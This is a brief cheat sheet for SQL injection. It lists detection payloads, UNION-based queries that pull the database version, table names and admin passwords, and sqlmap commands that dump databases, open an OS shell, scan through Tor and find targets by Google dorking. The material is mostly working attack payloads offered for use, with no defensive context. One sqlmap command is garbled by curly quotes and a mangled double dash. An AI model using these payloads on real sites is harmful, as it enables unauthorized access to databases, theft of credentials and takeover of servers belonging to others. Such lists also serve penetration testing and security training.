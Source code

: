 # SQL injection
		Detecting SQL injection vulnerabilities
- Single quote '	`https://site/news.php?id=5'`
- Boolean conditions `https://site/news.php?id=5 OR 1=1`
- Timed base `https://site/news.php?id=5 or SLEEP(25)`

<!-- -->

				Blind SQL injection
the application does not return the results of the SQL query or the details of any database errors within its responses. Blind vulnerabilities can still be exploited to access unauthorized data.
				
				
				Finding Number of columns
-- Increment until you get a error 				
`http://ip/news.php?id=5 order by 1/*`

				Checking Union Fuction
-- union all Number of columns found
-- `http://ip/news.php?id=5 union all select 1,2,3/*`

				Check MYSQL version
-- `http://$ip/news.php?id=5 union all select 1,@@version,3/*`

				Getting Column and Table Names
-- Table Names
-- `http://ip/news.php?id=5 union all select 1,2,3 from admin/*`
-- Column Names
-- `http://ip/news.php?id=5 union all select 1,password,3 from admin/*`

				SQLMap
- Scan through Tor
	--tor-type=SOCKS5
- List Databases
	--dbs

-- Use google Dorking
`sqlmap -g “payload” –-random-agent -f –-batch –-answer=”extending=N,follow=N,keep=N,exploit=n”n`

`sqlmap -u http://10.10.10.10 -p parameter`
`sqlmap -u http://10.10.10.10  --data POSTstring -p parameter`
`sqlmap -u http://10.10.10.10 --os-shell`
`sqlmap -u http://10.10.10.10 --dump`
